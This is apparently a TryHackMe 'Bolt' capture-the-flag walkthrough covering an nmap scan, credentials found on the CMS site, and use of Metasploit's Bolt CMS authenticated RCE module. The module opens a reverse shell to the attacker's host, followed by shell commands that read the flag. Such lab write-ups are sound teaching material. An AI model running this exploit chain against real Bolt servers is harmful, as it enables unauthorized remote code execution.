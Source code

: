 # Bolt

<a href="https://tryhackme.com/room/bolt">Click here to see the room!</a>

First of all, connect to the VPN and deploy the machine.

The machine IP is ```10.10.189.109``` for me. (It will be different for you)

Run Nmap to search open ports
```
#nmap -sV -sC -A 10.10.189.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 03:08 BST
Nmap scan report for 10.10.189.109
Host is up (0.071s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

8000/tcp open  http    (PHP 7.2.32-1)
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Sun, 23 Aug 2020 01:08:11 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 155466
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Sun, 23 Aug 2020 01:08:10 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: d172de
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
|_http-generator: Bolt
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Bolt | A hero is unleashed

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   72.13 ms 10.8.0.1
2   72.59 ms 10.10.189.109

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.21 seconds
```
3 ports are open.

#1 	What port number has a web server with a CMS running? The answer is there!

Let's check ```10.10.189.109:8000```. Yes it's working! Check the pages. You will find the answer of #2 What is the username we can find in the CMS? and #3 What is the password we can find for the username?

#4 	What version of the CMS is installed on the server? (Ex: Name 1.1.1)

Just google it how to reach the login page. On the https://docs.bolt.cm/3.7/manual/login you will find ```http://<IP:PORT>/bolt/login```. Enter the username and password that you find on the web page. Now you are on Dashboard page. At the left-bottom corner you can see the answer.

#5 	There's an exploit for a previous version of this CMS, which allows authenticated RCE. Find it on Exploit DB. What's its EDB-ID?

Go to https://www.exploit-db.com/ and search for "Bolt cms". You will find the EDB-ID of Authenticated Remote Code Execution vulnerability.

#6 	Metasploit recently added an exploit module for this vulnerability. What's the full path for this exploit? (Ex: exploit/....)

Run metasploit! I recommend you to update Metasploit first.

```
#msfconsole

msf6 > search bolt cms
#   Name                                              Disclosure Date  Rank       Check  Description
28  exploit/unix/webapp/bolt_authenticated_rce        2020-05-07       excellent  Yes    Bolt CMS 3.7.0 - Authenticated Remote Code Execution
```
Can you see the full path for this exploit?

#7 	Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit

You know the username and password. LHOST is your IP that you can find it on https://tryhackme.com/access or ```ifconfig``` on terminal. Keep LPORT 4444. RHOST is the target machine IP. You can see below how to set those parameters. PS: I hide username and password so don't set username as ```b...``` :D

Make sure everything is correct before running ```exploit```/```run```
```
msf6 > exploit/unix/webapp/bolt_authenticated_rce
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set lhost <YourIP>
lhost => <YourIP>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set rhosts 10.10.189.109
rhosts => 10.10.189.109
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set username b...
username => b...
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set password b...........
password => b...........
```
#8 	Look for flag.txt inside the machine.

```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run

[*] Started reverse TCP handler on <YourIP>:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "biczvo".
[*] Found 2 potential token(s) for creating .php files.
[+] Used token 886cf3be6cb404b04c371dd3b6 to create jjgvqcgyaxm.php.
[*] Attempting to execute the payload via "/files/jjgvqcgyaxm.php?biczvo=`payload`"
[*] Command shell session 1 opened (<YourIP>:4444 -> 10.10.189.109:60300) at 2020-08-23 03:41:42 +0100
[!] No response, may have executed a blocking payload!
[+] Deleted file jjgvqcgyaxm.php.
[+] Reverted user profile back to original state.

$ls
index.html
$pwd
/home/bolt/public/files
$cd ..
$ls
bolt-public
extensions
files
index.php
theme
thumbs
$cd ..
$ls
app
composer.json
composer.lock
cron
extensions
index.php
public
README.md
reboot.sh
src
vendor
$cd ..
$ls
bolt
composer-setup.php
flag.txt
cat flag.txt
THM{w.._......_....._...._....7?}
```

Easy machine!

Many thanks to <a href="https://tryhackme.com/p/0x9747">0x9747</a> room creator and <a href="https://tryhackme.com">TryHackMe.com</a> for this free room.

If you think something is wrong, send a mail to hsnckkgl@gmail.com

Best wishes to all the CTF Players,

hsnckkgl
